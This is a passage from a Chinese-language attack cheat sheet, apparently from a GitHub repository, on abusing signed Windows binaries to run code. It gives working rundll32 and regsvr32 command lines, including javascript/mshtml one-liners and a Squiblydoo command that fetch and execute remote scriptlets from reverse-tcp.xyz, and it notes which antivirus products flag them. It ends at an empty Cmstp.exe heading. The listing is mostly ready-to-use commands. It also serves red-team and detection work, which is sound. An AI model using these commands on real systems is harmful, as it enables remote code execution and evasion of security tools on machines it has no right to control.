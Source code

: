 2.11）pcwutl.dll - LaunchApplication 
```
rundll32.exe C:\Windows\System32\pcwutl.dll,LaunchApplication calc.exe
```
2.12）Setupapi.dll - InstallHinfSection
```
# Launch an executable file via the InstallHinfSection function and .inf file section directive.
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 C:\\Tools\\calc_exe.inf
```
2.13）Syssetup.dll - SetupInfObjectInstallAction
```
# Launch an executable file via the SetupInfObjectInstallAction function and .inf file section directive.
rundll32 syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 c:\temp\something.inf
```
3）执行javascript脚本 
```
rundll32 javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://reverse-tcp.xyz/payload.sct");window.close();
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

## Regsvr32.exe


- 杀软行为检测：360和火绒都会行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/6v8w2YZLxHJFnXb-IbnYAA](https://mp.weixin.qq.com/s/6v8w2YZLxHJFnXb-IbnYAA)

Regsvr32是一个命令行实用程序，用于注册和取消注册OLE控件，例如Windows注册表中的DLL和ActiveX控件，以命令行方式运行。Regsvr32.exe安装在Windows XP及更高版本的Windows的%systemroot%\System32 文件夹中。当通过regsvr32中注册一个dll文件时，有关与regsvr32关联的程序的信息将会被添加到Windows中，然后访问这些进程查看器以了解程序数据的位置以及如何与程序数据进行交互。在注册一个dll文件时，会将信息添加到目录中，以便Windows可以使用它。通常，除了注册和注销dll文件外，此文件不常用。

Regsvr32.exe分32位和64位，在windows系统中的位置
```
64位：C:\WINDOWS\SysWOW64\regsvr32.exe
32位：C:\WINDOWS\system32\regsvr32.exe
```
- 执行方式：

执行本地脚本
```
regsvr32.exe /s /u /i:file.sct scrobj.dll
```
加载远程脚本执行
```
regsvr32.exe /s /u /i:http://reverse-tcp.xyz/file.sct scrobj.dll
regsvr32.exe /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

## Cmstp.exe
